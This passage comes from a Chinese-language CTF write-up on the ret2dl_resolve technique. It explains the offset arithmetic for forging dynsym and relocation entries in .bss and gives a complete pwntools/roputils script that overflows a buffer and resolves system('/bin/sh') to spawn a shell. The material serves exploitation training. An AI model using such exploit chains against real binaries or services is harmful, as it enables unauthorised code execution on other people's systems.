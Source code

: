 这里计算难点是在这里:

```
padd = 'B'*4
# 下面就是往control_base(bss+0x800)写入fake_dynsym表
# linkmap
rop2.raw(plt0) # 0
# offset
rop2.raw(rel_plt_offset) # 4
# ret
rop2.raw(padd) #8
# binsh位置
rop2.raw(control_base+90) #12
rop2.raw(padd) #16
rop2.raw(padd) #20
rop2.raw(fake_rel) # 24
paddoffset = 12
rop2.raw('B'* paddoffset) # 32
rop2.raw(fake_elf32_sym) # 44
# sizeof(fake_dynsym_addr)=0x10 所以下面那个就是system符号
rop2.raw('system\x00') # 60
```

首先

```
fake_dynsym_addr = control_base + 36
align = 0x10 - ((fake_dynsym_addr - dynsym) &amp; 0xf)
fake_dynsym_addr += align
```

首先我们设置了fake_dynsym_addr是在control_base偏移36处,但是对齐之后+align,那么偏移就是44了

还有就是size(fake_rel)结构大小为8,

paddoffset = 12 其实就是:paddoffset = fake_elf32_sym-control_base-32

```
paddoffset = 44 - len(rop2.chain())
rop2.raw('B'* paddoffset) # 32
rop2.raw(fake_elf32_sym) # 44
```

这样也是ok的,填满90,之后设置/bin/sh,就是参数地址了。

### <a name="header-n127"></a>0x6.2 roputils一把梭

```
import sys
import roputils
from pwn import *

context.log_level = 'debug'
r = process("./pwn")
# r = remote("c346dfd9093dd09cc714320ffb41ab76.kr-lab.com", "56833")

rop = roputils.ROP('./pwn')
addr_bss = rop.section('.bss')

buf1 = 'A' * 0x2c
buf1 += p32(0x8048390) + p32(0x804852D) + p32(0) + p32(addr_bss) + p32(100)
r.send(buf1)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
buf2 += rop.dl_resolve_data(addr_bss + 20, 'system')
buf2 += rop.fill(100, buf2)
r.send(buf2)

```